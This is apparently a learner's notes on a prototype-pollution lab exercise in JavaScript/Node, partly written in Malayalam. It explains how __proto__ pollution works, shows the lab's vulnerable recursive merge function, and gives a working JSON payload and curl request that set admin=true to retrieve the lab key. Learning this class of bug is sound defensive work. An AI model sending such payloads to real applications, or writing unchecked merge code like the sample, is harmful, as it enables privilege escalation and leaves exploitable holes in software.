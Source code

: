 ## Introduction
-->This course details the exploitation of a vulnerability that can be found in some JavaScript applications. This issue allows an attacker to define arbitrary attributes that will be shared by every object in the application. The well-known example of this issue was found in [Lodash](https://lodash.com/) and is covered in details in the following article: [https://codeburst.io/what-is-prototype-pollution-49482fc4b638](https://codeburst.io/what-is-prototype-pollution-49482fc4b638)
-->This exercise is using Node as a CGI to limit the impact of any mistake (risk of Denial of Service). In a real world scenario, the exploitation of this issue will have a permanent effect and be shared amongst all users of the application.

## Prototype Pollution
-->The idea behind prototype pollution is to pollute the prototype of a base object. This allows you to define arbitrary attributes. You are injecting extra-attributes to the base Object that will be shared amongst all the other Objects thanks to the keyword `\_\_proto\_\_.`

If you want to test the behaviour of` \_\_proto\_\_`, you can use your browser Web Console:
```
	>> a={}
	Object {  }
	>> b={}
	Object {  }
	>> b.__proto__.foo='bar';
	"bar"
	>> b.foo
	"bar"
	>> c={}
	Object {  }
	>> c.foo
	"bar"
	>> a.foo
	"bar"
```
-->In the code above, by defining `\_\_proto\_\_.foo` for d, we pollute the prototype of every object created before or after the pollution happens. The idea of this attack is to do the same thing remotely and creating/setting an attribute that will change the application's behaviour.

## The merge function
-->The merge function in this exercise is a classic example of code that will create a prototype pollution as this code does copy attributes without checking and allows an attacker to add `\_\_proto\_\_ `attribute in the merged Object.

## Exploitation
-->To exploit this issue you will need to add an element `\_\_proto\_\_` in your request (in JSON) that will define the necessary attribute and allow you to get the key for this challenge.

## Conclusion
-->This exercise showed you how you can use prototype pollution to change the behaviour in an application and get access to code path that shouldn't be reachable.

# Video Explanation
-->ivide ith correct eenganeyan work aakunath enenikariyila.theory part il console il chyunath mukalil un nokiko
->ivide njan GET /  request eduth repeater il idunu enit GET mati POST aakunu. content-type:application/json kodikunu enit payload il :
```
{"user":"admin",
"__proto__":{"admin":true}}
```
een kodukunu.enit send adikumbol namuk key kitunund ok
-->lab ile page il ingnae aan kanikunath :
## Prototype Pollution

In this challenge you need to exploit the prototype pollution to gain access to the key. To limit the risk of denial of service, the code runs as a CGI. In a real scenario you may only have one chance at exploiting this issue and risk to crash the application by trying this attack.

Part of the source code can be found below:
```js
function merge(dst, src) {
    for (var attr in src) {
        if (typeof(dst[attr]) == "object" &&
            typeof(src[attr]) == "object") {
            merge(dst[attr], src[attr]);
        } else {
            dst[attr] = src[attr];
        }
    }
    return dst;
}


if (request.method == "POST") {
  if (request.headers.content_type == 'application/json') {
    user=merge({"user":""}, JSON.parse(request.post.data));
    admin={};
    response.headers.content_type = 'application/json' ;
    if (admin.admin == true) {
      write(JSON.stringify({"key": ""+process.env['PTLAB_KEY']}));
    } else {
      write(JSON.stringify(user));
    }
 }
```
-->ith noki ithinanusarich chyumbol namuk key kitum.ini ith curl il chyunath nokam
->`curl -X POST -H "Content-Type:application/json" http://ptl-441d7e99-99e72224.libcurl.so --data '{"user":"admin","__proto__":{"admin":true}}'`
-->ivide "user":"admin"  en thane kodukanam enila blank koduthalum aakum.ivide `__proto__`  ilan main aayi namal nokendath ok